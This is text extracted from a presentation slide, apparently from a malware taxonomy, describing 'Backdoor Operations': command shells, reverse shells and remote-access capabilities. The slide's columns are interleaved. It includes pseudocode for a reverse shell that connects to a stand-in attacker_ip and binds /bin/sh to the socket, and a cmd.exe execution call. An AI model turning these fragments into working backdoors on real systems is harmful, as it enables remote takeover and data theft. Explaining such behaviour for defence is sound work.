

Category 07

Backdoor Operations
Remote access and command shell execution enabling interactive attacker control

Command Shell
Reverse Shell
Remote Access

// Shell Execution
// Reverse Connection
// Remote Capabilities
CreateProcess("cmd.exe",
socket_connect(attacker_ip);
• File upload/download
"/c " + command,
dup2(sock, 0); // stdin
• Process execution
..., &pi);
dup2(sock, 1); // stdout
• Registry modification
execve("/bin/sh", ...);
• Service management
Spawns Windows command shells to execute attacker commands. Enables file system access, process manipulation, and reconnaissance operations.
Creates outbound connections to attacker servers, bypassing firewall restrictions. Provides interactive shell access without listening ports.
Comprehensive remote administration capabilities enabling full system control, lateral movement, and persistence maintenance.

Threat Level
Bypass Rate
Control Level
CRITICAL
92%
COMPLETE

Attack Campaign Impact
Backdoor Objectives

Compromise Confirmation

Backdoor installation indicates successful system compromise
Reconnaissance
Data Theft

Persistent Access

System discovery
Sensitive files
Enables long-term attacker presence and return access

Privilege Escalation

Often installed with SYSTEM-level privileges

Lateral Movement
Sabotage
Network expansion
System destruction